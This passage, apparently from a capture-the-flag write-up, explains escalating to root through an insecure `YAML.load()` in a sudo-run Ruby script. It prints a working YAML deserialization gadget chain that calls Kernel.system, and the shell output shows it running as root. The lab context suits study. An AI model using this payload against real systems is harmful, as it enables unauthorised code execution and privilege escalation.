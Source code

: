 The only way I could interfere with the code seemed to be through the `dependencies.yml` file, loaded in the `list_from_file` function.
With a few searches, I found that the `YAML.load()` function appears to be vulnerable to *YAML Deserialization*.

Following the description from this [blog post](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/), I made a folder `/tmp/.niik` (always make sure you don't interfere with other players), created a `dependencies.yml` file and paste the following code in:

```YAML
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

Then, I ran the command:

```bash
$ pwd
/tmp/.niik
$ ls
dependencies.yml
$ cat dependencies.yml 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
```
